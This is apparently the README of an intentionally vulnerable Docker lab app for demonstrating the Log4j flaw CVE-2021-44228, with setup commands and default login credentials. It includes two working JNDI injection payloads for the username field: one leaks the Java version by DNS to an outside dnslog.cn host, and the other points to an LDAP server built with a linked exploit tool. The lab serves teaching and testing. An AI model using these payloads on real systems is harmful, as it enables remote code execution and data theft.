


# CVE-2021-44228-VULN-APP
- NOTE: This is a vulnerable virtual machine for showing what actually is this vulnerability log4j, and so on!

## Installation:

```docker
from Docker Desktop
docker pull nu11secur1ty/log4j-vuln-application
docker run nu11secur1ty/log4j-vuln-application  
```

```docker
cd CVE-2021-44228-VULN-APP/
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```
- Listening on port `8080`
- In Docker Desktop, map to 8082 which access from outside

## payload
- access vulnerable website http://localhost:8082/. Normal u/p is: admin/password
- for exploit log4j vulnerability, input two kinds of payload in username input box. 

  1. using http://www.dnslog.cn/ OOB attack and check DNS query record
`${jndi:dns://${sys:java.version}.4g8l7g.dnslog.cn}`

  2. using jndi inject, refer to https://github.com/shidongwa/JNDI-Injection-Exploit. 
Specially, "ldap://[ip]:[port]/fd3n10" in below payload generated from the prior project
`${jndi:ldap://[ip]:[port]/fd3n10}`

## verify the result
- for dnslog oob, check on dnslog website
- for jndi inject, check inside docker container, and verify /tmp/success.txt file created already